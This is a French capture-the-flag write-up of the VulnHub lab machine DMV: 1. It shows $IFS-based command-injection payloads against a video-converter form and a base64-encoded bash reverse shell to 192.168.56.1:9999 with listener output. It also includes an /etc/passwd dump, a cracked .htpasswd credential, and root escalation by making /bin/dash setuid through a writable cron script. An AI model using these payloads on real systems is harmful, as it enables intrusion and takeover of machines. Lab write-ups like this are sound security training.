 # Solution du CTF DMV #1 de VulnHub

[DMV: 1](https://www.vulnhub.com/entry/dmv-1,462/) est le premier CTF d'une série créé par [Jonathan Toledo](https://twitter.com/over_jt).

La description est la suivante :

> It is a simple machine that replicates a real scenario that I found.
> 
> The goal is to get two flags, one that is in the secret folder and the other that can only be read by the root user

```
Nmap scan report for 192.168.56.68
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 651bfc741039dfddd02df0531ceb6dec (RSA)
|   256 c42804a5c3b96a955a4d7a6e46e214db (ECDSA)
|_  256 ba07bbcd424af293d105d0b34cb1d9b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## Youteubé

On a donc ce site web qui ressemble beaucoup à des sites existants permettant d'obtenir un rip pour une vidéo YouTube. La page n'a pas de tag `form` défini pourtant quand on remplit et soumet des données on peut voir (via les developper tools) une requête passer.

```html
         <h3>Convert My Video</h3>
         <label for="ytid">Video ID:</label><input type="text" id="ytid" name="ytid">
         <button type="button" id="convert">Convert!</button>
```

C'est parce que la logique est présente dans un code JS qui est chargé :

```js

$(function () {
    $("#convert").click(function () {
        $("#message").html("Converting...");
        $.post("/", { yt_url: "https://www.youtube.com/watch?v=" + $("#ytid").val() }, function (data) {
            try {
                data = JSON.parse(data);
                if(data.status == "0"){
                    $("#message").html("<a href='" + data.result_url + "'>Download MP3</a>");
                }
                else{
                    console.log(data);
                    $("#message").html("Oops! something went wrong");
                }
            } catch (error) {
                console.log(data);
                $("#message").html("Oops! something went wrong");
            }
        });
    });

});
```

Quoiqu'il en soit si je saisi un guillemet dans le champ de texte j'obtiens la réponse suivante pour la requête Ajax :

```json
{"status":2,"errors":"sh: 1: Syntax error: Unterminated quoted string\n","url_orginal":"https:\/\/www.youtube.com\/watch?v=\"'","output":"","result_url":"\/tmp\/downloads\/63875bad67c74.mp3"}
```

Une erreur de syntaxe bash... donc exécution de commande. Un point virgule peut suffire à échapper la commande en cours mais ça fonctionne aussi avec les backticks. Exemple avec la commande ````id```` :

```json
{
  "status":1,
  "errors":"WARNING: Assuming --restrict-filenames since --- snip --- Could not send HEAD request to https:\/\/www.youtube.com\/watch?v=uid=33(www-data): <urlopen error [Errno -3] Temporary failure in name resolution>\nERROR: Unable to download webpage: <urlopen error [Errno -3] Temporary failure in name resolution> (caused by URLError(gaierror(-3, 'Temporary failure in name resolution'),))\n","url_orginal":"https:\/\/www.youtube.com\/watch?v=`id`","output":"[generic] watch?v=uid=33(www-data): Requesting header\n[generic] watch?v=uid=33(www-data): Downloading webpage\n","result_url":"\/tmp\/downloads\/63875c3149f3b.mp3"}
```

On voit que la commande a été exécutée même si on a juste une partie de l'output (visiblement tronqué au premier espace). De même si on demande `ls -al` il semble que seul le début de la commande passe, tronquée elle aussi au premier espace. Il faut donc essayer de passer outre ça et la solution est généralement la variable d'environmment `IFS` qui contient un whitespace.

Ainsi si je saisi `;ls""$IFS"-la"$IFS/;)` j'obtiens le listing espéré :

`total 2017384\ndrwxr-xr-x  24 root root       4096 Apr 12  2020 .\ndrwxr-xr-x  24 root root       4096 Apr 12  2020 ..\ndrwxr-xr-x   2 root root       4096 Apr 12  2020 bin\n`

etc, etc. Pour éviter à avoir à gérer trop de cas d'espaces je vais me contenter d'encoder la commande finale en base64 et je passerais au script une commande qui la décode et la passe à `bash`.

D'abord obtenir la commande de reverse-shell en base64 :

```bash
echo 'bash -i >& /dev/tcp/192.168.56.1/9999 0>&1' | base64 -w0
```

Je met le résultat avec les `$IFS` et chaines vides nécessaires :

```bash
echo""$IFS""YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvOTk5OSAwPiYxCg==""|base64""$IFS""-d|bash
```

On passe le tout avec les points viirgules de part et d'autre et ça mord :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.68.
Ncat: Connection from 192.168.56.68:58648.
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dmv:/var/www/html$ which python2 python3 python
which python2 python3 python
/usr/bin/python2
/usr/bin/python3
/usr/bin/python
www-data@dmv:/var/www/html$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@dmv:/var/www/html$ ls
ls
admin  images  index.php  js  style.css  tmp
www-data@dmv:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
dmv:x:1000:1000:dmv:/home/dmv:/bin/bash
```

Je trouve le premier flag dans un dossier de la racine web :

```shellsession
$ cat /var/www/html/admin/flag.txt
cat /var/www/html/admin/flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```

Mais pas que, on trouve aussi un fichier `.htpasswd` :

`itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`

Il se cracke rapidement :

`jessie           (itsmeadmin)`

Mais il ne semble utilisable ni pour root ni pour le compte dmv présent sur le système.

## Autopspy

`LinPEAS` ne trouvant rien de particulier (il y a la faille sudo toutefois), je rapaptrie et exécute pspy pour espionner l'activité du système.

Je remarque une tache planifiée exécutée par root :

```bash
2022/11/30 15:37:01 CMD: UID=0    PID=27335  | bash /var/www/html/tmp/clean.sh 
2022/11/30 15:37:01 CMD: UID=0    PID=27334  | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh
```

Or le script nous appartient :

`-rw-r--r-- 1 www-data www-data 17 Apr 12  2020 /var/www/html/tmp/clean.sh`

Je rajoute juste cette ligne en début de fichier :

```bash
chmod 4755 /bin/dash
```

Après une minute c'est dans la poche :

```shellsession
www-data@dmv:/tmp$ ls -al /bin/dash
-rwsr-xr-x 1 root root 119K Jan 25  2018 /bin/dash
www-data@dmv:/tmp$ /bin/dash -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# cd /root
# ls
root.txt
# cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
```

Scénario intéressant, j'ai moi même déjà du faire face à cette problématique de tronquage :)
